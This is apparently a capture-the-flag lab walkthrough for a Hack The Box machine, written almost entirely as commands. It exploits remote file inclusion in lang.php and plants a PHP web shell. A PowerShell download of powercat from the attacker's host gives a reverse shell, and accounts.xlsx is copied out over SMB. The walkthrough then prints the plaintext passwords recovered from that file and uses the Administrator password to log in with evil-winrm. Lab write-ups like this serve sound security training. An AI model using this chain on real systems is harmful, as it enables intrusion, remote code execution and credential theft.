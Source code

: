 Change the language 

```
http://10.10.110.213/lang.php?page=gr.php
```

This is vulnerable to RFI

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
Start SMB Server
```
impacket-smbserver -smb2support myshare /home/p3ta/HTB/genesis/213
```
Test with whoami
```
http://10.10.110.213/lang.php?page=//10.10.14.21/myshare/shell.php&cmd=whoami
```
HTTP Server
```
python -m SimpleHTTPServer 80
```
Grab Powercat
```
git clone https://github.com/besimorhino/powercat.git
```
Browser
```
http://10.10.110.213/lang.php?page=//10.10.14.21/myshare/shell.php&cmd=powershell%20-c%20%22IEX(New-Object%20System.Net.WebClient).DownloadString(%27http://10.10.14.21/powercat.ps1%27);powercat%20-c%2010.10.14.21%20-p%209001%20-e%20cmd%22
```
Look in documents
```
 Directory of C:\Users\alida\Documents

12/17/2020  05:23 PM    <DIR>          .
12/17/2020  05:23 PM    <DIR>          ..
04/09/2021  06:07 AM             8,216 accounts.xlsx
               1 File(s)          8,216 bytes
               2 Dir(s)   8,856,829,952 bytes free
```
Copy to SMB
```
copy accounts.xlsx \\10.10.14.21\myshare
```
Credentials
```
		
Username	Password	
		
ray	IJA8s8c77s	
Administrator	xK3wdk532r	
Ela	sowi3$$#ee	
Sage	lasp:2123#	
```
Evilwin-RM
```
evil-winrm -u administrator -p xK3wdk532r -i 10.10.110.213
```




